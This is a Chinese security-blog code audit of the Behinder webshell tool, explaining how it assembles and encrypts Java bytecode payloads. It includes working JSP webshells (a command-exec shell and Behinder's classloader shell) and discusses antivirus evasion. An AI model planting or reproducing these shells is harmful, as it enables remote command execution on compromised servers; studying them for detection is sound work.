



# 冰蝎源码（Behinder)分析---代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/18064  
> **文章ID**: 18064

---

# Behinder(冰蝎)如何发送java字节码----代码审计

```
在研究java的免杀中，想看一下冰蝎如何发送java的字节码。此代码审计只做网络安全研究，不负任何法律责任。
```

## java木马介绍

jsp木马不同于常规的asp,php马，一般像冰蝎，哥斯拉会采用发送java字节码（字节码中藏有恶意函数），而像这样类似于

```
<%
  Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
  InputStream inputStream = process.getInputStream();
  BufferedReader bufferedReader =  new BufferedReader(new InputStreamReader(inputStream));
  String line;
  while ((line = bufferedReader.readLine())!=null){
     response.getWriter().print(line);
    }
%>
```

[^常见jsp马]:

有明显的Runtime,Process类还有exec这些方法，会直接被静态杀软干掉。

主流是加载字节码的jsp马，尽管还是会被杀掉（需要实现免杀），但大多数还是使用加载字节码的方式去免杀。

```
<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        return data;
    }
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
```

[^主流jsp马]:

## 冰蝎字节码发送

以冰蝎为标准，来研究恶意字节码是如何发送具有参考意义



连接的冰蝎，主要有基本信息，命令执行，文件管理，内网穿透等等命令。这些命令的字节码来源于冰蝎源码如下



在payload/java的目录下面，下面会分析冰蝎如何将这些已经运行的class文件发送给受害客户端。

[^冰蝎执行的payload类型]:

以执行cmd命令测试



[^断点截取图，命令执行的payload]:

这里图中的断点描写了执行dir（列出文件目录）的命令，包含了冰蝎的传输协议（字节码的加密解密函数）

在断点中看见encode和decode即为传输加密解密协议，那么这些字符串是怎么动态组装成函数的呢？这里介绍一个java的开源库。

## javassist

### 核心功能

1. **动态生成类**：可以在运行时创建新的Java类。
2. **修改现有类**：可以修改已编译类的结构，例如添加或修改字段、方法。
3. **代码注入**：可以在方法调用前后注入代码，例如添加日志记录。
4. **动态代理**：用于实现AOP（面向切面编程），例如在方法调用前后添加额外逻辑。
5. **字节码分析**：可以提取类的结构信息，如类名、字段、方法等。

### 核心组件

* **ClassPool**：管理CtClass对象的容器，用于查找和修改类。
* **CtClass**：表示一个Java类，用于操作类的结构。
* **CtMethod**和**CtField**：分别表示类中的方法和字段。以下是javassist的简单小用法

```
import javassist.*;
public class JavassistExample {
    public static void main(String[] args) throws Exception {
        // 创建类池
        ClassPool cp = ClassPool.getDefault();
        // 创建新类
        CtClass cc = cp.makeClass("com.example.MyClass");
        // 添加方法
        CtMethod m = CtNewMethod.make("public void sayHello() { System.out.println("Hello, world!"); }", cc);
        cc.addMethod(m);
        // 加载类并创建实例
        Class<?> clazz = cc.toClass();
        Object obj = clazz.newInstance();
        clazz.getMethod("sayHello").invoke(obj);
    }
}

```

这段代码就动态创建了一个类和方法，使用Class加载类先实例化，采用invoke方法调用了sayHello函数。

## 冰蝎字节码组装

先看源代码Params.java中的组装流程

```
public static byte[] getParamedClass(String className, Map<String, String> params, TransProtocol transProtocol) throws Exception {
    // 获取经过协议处理的类字节码
    byte[] classBytes = processTransProtocol(className, transProtocol);
    
    // 处理参数注入和类名替换
    return processClassParams(className, classBytes, params);
}

/**
 * 处理传输协议相关的类修改
 */
private static byte[] processTransProtocol(String className, TransProtocol transProtocol) throws Exception {
    String transProtocolName = transProtocol.getName();
    Map<String, Map<String, CtClass>> protocolCache;
    String cacheKey;
    
    // 确定使用哪个缓存
    if (transProtocol.getId() < 0) {
        protocolCache = (Map<String, Map<String, CtClass>>) legacyPayloadClassCache;
        cacheKey = ((LegacyCryptor) transProtocol.getCryptor()).getKey();
    } else {
        protocolCache = (Map<String, Map<String, CtClass>>) payloadClassCache;
        cacheKey = className;
    }
    
    // 检查缓存
    if (protocolCache.containsKey(transProtocolName) && 
        protocolCache.get(transProtocolName).containsKey(cacheKey) &&
        protocolCache.get(transProtocolName).get(cacheKey).containsKey(className)) {
        
        return protocolCache.get(transProtocolName).get(cacheKey).get(className).toBytecode();
    }
    
    // 缓存未命中，创建新的类
    ClassPool cp = ClassPool.getDefault();
    CtClass pocClass = cp.getAndRename(String.format("net.rebeyond.behinder.payload.java.%s", className), 
                                       Utils.getRandomString(10));
    
    // 修改类方法
    CtMethod encodeMethod = CtNewMethod.make(transProtocol.getEncode(), pocClass);
    pocClass.removeMethod(pocClass.getDeclaredMethod("Encrypt"));
    pocClass.addMethod(encodeMethod);
    pocClass.setName(className);
    
    byte[] classBytes = pocClass.toBytecode();
    pocClass.detach();
    
    // 更新缓存
    Map<String, CtClass> payloadClassMap = new HashMap<>();
    payloadClassMap.put(className, pocClass);
    
    if (!protocolCache.containsKey(transProtocolName)) {
        protocolCache.put(transProtocolName, new HashMap<>());
    }
    protocolCache.get(transProtocolName).put(cacheKey, payloadClassMap);
    
    return classBytes;
}

/**
 * 处理类参数注入和类名替换
 */
private static byte[] processClassParams(String className, byte[] classBytes, Map<String, String> params) throws Exception {
    String opcodeClassName = String.format("net/rebeyond/behinder/payload/java/%s", className);
    String newClassName = Utils.getRandomClassName(opcodeClassName);
    
    ClassReader classReader = new ClassReader(classBytes);
    ClassWriter cw = new ClassWriter(1);
    
    classReader.accept(new ClassAdapter(cw) {
        @Override
        public MethodVisitor visitMethod(int access, String name, String desc, String signature, String[] exceptions) {
            if (name.equals("<init>")) {
                MethodVisitor mv = this.cv.visitMethod(access, name, desc, signature, exceptions);
                int blockSize = '\ufffa';
                
                // 处理所有参数
                for (String paramName : params.keySet()) {
                    String paramValue = params.get(paramName);
                    String[] values = paramValue.length() > blockSize 
                        ? Utils.splitString(paramValue, blockSize) 
                        : new String[]{paramValue};
                    
                    Params.setJavaParam(className, mv, paramName, values);
                }
                
                mv.visitEnd();
                return mv;
            }
            return super.visitMethod(access, name, desc, signature, exceptions);
        }
    }, 0);
    
    byte[] result = cw.toByteArray();
    
    // 类名替换逻辑
    String targetClassName = className.equals("LoadNativeLibrary") ? opcodeClassName : newClassName;
    String sourceClassName = className.equals("LoadNativeLibrary") ? className : opcodeClassName;
    
    // 替换类名引用
    result = Utils.replaceBytes(result, 
                               Utils.mergeBytes(new byte[]{(byte) (sourceClassName.length() + 2), 76}, sourceClassName.getBytes()),
                               Utils.mergeBytes(new byte[]{(byte) (targetClassName.length() + 2), 76}, targetClassName.getBytes()));
    
    result = Utils.replaceBytes(result,
                               Utils.mergeBytes(new byte[]{(byte) sourceClassName.length()}, sourceClassName.getBytes()),
                               Utils.mergeBytes(new byte[]{(byte) targetClassName.length()}, targetClassName.getBytes()));
    
    // 设置类版本为Java 8
    result[7] = 50;
    
    return result;
}
```

[^Params.java代码块]:

这段代码是 Java 字节码操作工具类的核心方法，通过组合传输协议和参数注入来动态生成类。它使用 Javassist/CtClass 和 ASM 框架修改字节码，支持加密协议处理和参数分块注入，生成随机类名混淆，缓存机制优化重复操作，最终返回处理后的类字节码用于动态加载执行。函数的返回结果是一个通过javassist动态修改的类（Cmd.java+加密函数），直接返回byte类型可以直接加载修改的类。虽然原始的Cmd.java中没有加密函数，但通过如上操作，就获得了一个有加密函数的Cmd实体类。

## 数据传输流程

```
 public static byte[] getData(ICrypt cryptor, String className, Map params, String scriptType, byte[] extraData) throws Exception {
      byte[] bincls;
      byte[] encrypedBincls;
      if (scriptType.equals("jsp")) {
         bincls = Params.getParamedClass(className, params, cryptor.getTransProtocol(scriptType));
         if (extraData != null) {
            bincls = CipherUtils.mergeByteArray(bincls, extraData);
         }

         encrypedBincls = cryptor.encrypt(bincls);
         return encrypedBincls;
      } 
```

[^Utils.java代码块]:

这段代码就是捕获的断点，其中jsp的payload就是通过Params类生产的字节（byte类型）

下面看一下冰蝎是如何使用组装过的字节类的加密，解密函数，其实也是采用classloader方式，使用invoke方法动态调用，同原始的冰蝎马一样。

```
 public Class getEncodeCls() throws Exception {
      if (this.encodeCls == null) {
         byte[] payload = Utils.getClassFromSourceCode(this.paddingCode(this.localTransProtocol.getEncode()));
         this.encodeCls = (new CustomCryptor()).define(payload);
      }

      return this.encodeCls;
   }

   public Class getDecodeCls() throws Exception {
      if (this.decodeCls == null) {
         byte[] payload = Utils.getClassFromSourceCode(this.paddingCode(this.localTransProtocol.getDecode()));
         this.decodeCls = (new CustomCryptor()).define(payload);
      }

      return this.decodeCls;
   }
   public byte[] encrypt(byte[] clearContent) throws Exception {
      Class encodeCls = this.getEncodeCls();
      Method encodeMethod = encodeCls.getDeclaredMethod("Encrypt", byte[].class);
      encodeMethod.setAccessible(true);
      byte[] result = (byte[])encodeMethod.invoke(encodeCls.newInstance(), clearContent);
      return result;
   }
   public byte[] decrypt(byte[] decryptContent) throws Exception {
      Class decodeCls = this.getDecodeCls();
      Method decodeMethod = decodeCls.getDeclaredMethod("Decrypt", byte[].class);
      decodeMethod.setAccessible(true);
      byte[] result = (byte[])decodeMethod.invoke(decodeCls.newInstance(), decryptContent);
      return result;
   }
```

[^CustomCryptor.java(实现Icrypt的接口)]:

这个时候我们查看一个冰蝎的webshell，原始的冰蝎也是使用classloader方式加载字节类

```
<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    private byte[] Decrypt(byte[] data) throws Exception
    {
        return data;
    }
%>
<%!class U extends ClassLoader{
    U(ClassLoader c){
        super(c);
    }
    public Class g(byte []b){
        return super.defineClass(b,0,b.length);
    }
}%>
<%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            out.clear();
            out=pageContext.pushBody();
            out.clear();
            out=pageContext.pushBody();
        new U(this.getClass().getClassLoader())
            .g(Decrypt(bos.toByteArray()))
            .newInstance()
            .equals(pageContext);}
%>
```

其中解密函数的编写要和传输协议上面的一样，将字节码通过post传参传送给jsp，冰蝎就成功发送了java字节码。

## 总结

冰蝎通过java的javassist库动态修改class，动态添加方法或者变量，然后将这些动态创建的方法与原始payload的class组装发送给jsp。
